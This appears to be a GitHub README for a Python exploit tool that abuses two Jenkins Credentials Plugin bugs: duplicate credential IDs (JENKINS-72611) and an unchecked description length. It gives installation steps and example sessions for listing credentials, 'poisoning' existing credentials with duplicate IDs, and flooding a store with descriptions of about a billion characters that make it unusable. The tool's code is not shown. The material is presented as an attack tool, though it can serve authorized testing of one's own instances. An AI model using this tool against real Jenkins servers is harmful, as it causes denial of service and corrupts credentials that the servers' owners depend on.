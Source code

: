 # Jenkins Credentials Flood

## Description
This software takes advantage of two bugs in the Jenkins Credentials Plugin. It allows users to interact with credentials in Jenkins by exploiting two bugs. One of them (duplicate IDs) is only affecting versions prior to `1337.v60b_d7b_c7b_c9f`. 

### Bugs
1. **JENKINS-72611**: A bug affecting the Credentials Plugin prior to version `1337.v60b_d7b_c7b_c9f`. More details can be found [here](https://issues.jenkins.io/browse/JENKINS-72611).
2. **Description Length Limit**: A second bug that remains unresolved, which allows for credentials to be added without validation on the description length limit.

## Installation
To use this tool, ensure you have Python installed on your machine. Clone the repository and install any required dependencies.

```bash
git clone https://github.com/Harckade/jenkins-credentials-flood.git
cd jenkins-credentials-flood
pip install -r requirements.txt
```

## Usage
To run the program, use the following command:

```bash
python jenkins_exploit_tool.py [COMMAND] [OPTIONS]
Available Commands
help - Show this help message.
list - List all credentials from all stores.
list STORE_PATH - List credentials from a specific store. E.g., list store/sub-store.
add - Add a credential or a set of credentials to a specific store with any length. This may slow down users' browsers.
poison - Add credentials with the same ID as already existing ones. This is only possible if the Credentials plugin version is prior to 1337.v60b_d7b_c7b_c9f.
exit - Exit the program.
```

## Examples

### To run the tool using username and password
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
```

### To run the tool using session ID token
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -t JSESSIONID.3ca79i9ds3457ergg
```

### To display the help message
```bash
python jenkins_exploit_tool.py -h
```

### To list all credentials from all stores:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
list
```

### To list credentials from a specific store:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
list store/sub-store
```

### To add a credential:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
add
# (default - "System") store:
# (default - "(global)") domain:
# (default - 99999999) description length: 9999999900
⚠️  1000000900 characters long description will make 'system' store unusable for the most clients ⚠️
# (y/n) procceed: y
Length: 1000000900
# (default - 1) number of credentials: 3
This may take a while...
Adding credential #creds-flood-bf622-0
```

### To poison an existing credential:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
poison
# (default - "System") store:
# (default - "(global)") domain:
# target credential id: harckade-1
```

## Contributing
If you'd like to contribute to this project, please follow these steps:

- Fork the repository.
- Create a new branch (git checkout -b feature-branch).
- Make your changes and commit them (git commit -m 'Add new feature').
- Push to the branch (git push origin feature-branch).
- Open a pull request.
